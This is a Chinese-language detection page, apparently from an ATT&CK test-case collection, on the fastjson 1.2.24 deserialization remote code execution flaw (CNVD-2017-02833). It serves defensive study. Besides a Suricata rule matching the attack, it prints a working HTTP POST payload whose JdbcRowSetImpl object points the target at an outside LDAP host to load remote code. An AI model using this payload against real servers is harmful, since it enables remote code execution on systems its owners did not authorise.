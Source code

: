 # T1190-CNVD-2017-02833-fastjson1.2.24远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

fastjson在解析json的过程中,支持使用@type字段来指定反序列化的类型,并调用该类的set/get方法来访问属性,当组件开启了autotype功能并且反序列化不可信数据时,攻击者可以构造数据,使目标应用的代码执行流程进入特定类的特定setter或者getter方法中,即可构造出一些恶意利用链。在Fastjson 1.2.47及以下版本中,利用其缓存机制可实现对未开启autotype功能的绕过。详细的原理分析:<https://www.freebuf.com/vuls/208339.html>

影响版本：Fastjson1.2.24以及之前的所有版本

## 检测日志

HTTP

## 测试复现

具体测试过程请参考：<https://jishuin.proginn.com/p/763bfbd290cf>

```yml
POST / HTTP/1.1
Host: 172.17.41.103:27760
Accept: */*
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json;charset=UTF-8
Content-Length: 163

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://172.17.42.24:9999/TouchFile",
        "autoCommit":true
    }
}
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"CNVD-2017-02833-fastjson1.2.24远程代码执行漏洞";flow:established,to_server;content:"POST";http_method;content:"com.sun.rowset.JdbcRowSetImpl";http_client_body;reference:url,jishuin.proginn.com/p/763bfbd290cf;classtype:web-application-attck;sid:3002021;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Fastjson‐CNVD‐2017‐02833

<https://jishuin.proginn.com/p/763bfbd290cf>

Fastjson＜1.2.24远程代码执行（CNVD-2017-02833）

<https://blog.csdn.net/weixin_43071873/article/details/109368166>

Fastjson系列漏洞实战和总结

<https://blog.csdn.net/qq_41832837/article/details/109038795>

